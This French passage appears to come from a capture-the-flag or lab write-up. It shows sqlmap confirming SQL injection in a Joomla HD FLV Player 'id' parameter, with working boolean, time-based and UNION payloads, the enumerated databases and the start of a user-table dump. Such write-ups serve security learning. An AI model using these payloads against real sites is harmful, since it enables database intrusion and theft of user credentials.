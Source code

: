 On est dans les meilleurs circonstances pour l'exploitation :

```
[22:25:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:25:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:25:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:25:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:25:57] [INFO] target URL appears to have 22 columns in query
[22:26:00] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 102 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: option=com_hdflvplayer&id=4 AND 6962=6962

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: option=com_hdflvplayer&id=4 AND (SELECT 4787 FROM (SELECT(SLEEP(5)))DbDB)

    Type: UNION query
    Title: Generic UNION query (NULL) - 22 columns
    Payload: option=com_hdflvplayer&id=-2420 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a767671,0x784d4a7a76444f7952514c49746b765a514372584648507a4f416f576e644b41654f62445a54637a,0x7162717871),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[22:26:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 14.10 or 15.04 (utopic or vivid)
web application technology: Apache 2.4.10
back-end DBMS: MySQL >= 5.0.12
```

Obtenir les dumps va donc très vite, par exemple la liste des bases de données :

```
available databases [6]:                                                                                                                                                                                         
[*] fuku
[*] fuku2
[*] information_schema
[*] mysql
[*] performance_schema
[*] tacacs
```

La première base de données correspond à un Joomla et dispose de la table `jos_users` :

```
Database: fuku
Table: jos_users
[2 entries]
+----+-----+---------------+------------------+-------+----------+---------------------+-------------------------------------------------------------------+-----------+------------+---------------------+---------------------+
| id | gid | name          | email            | block | username | usertype            | password                                                          | sendEmail | activation | registerDate        | lastvisitDate       |
+----+-----+---------------+------------------+-------+----------+---------------------+-------------------------------------------------------------------+-----------+------------+---------------------+---------------------+
```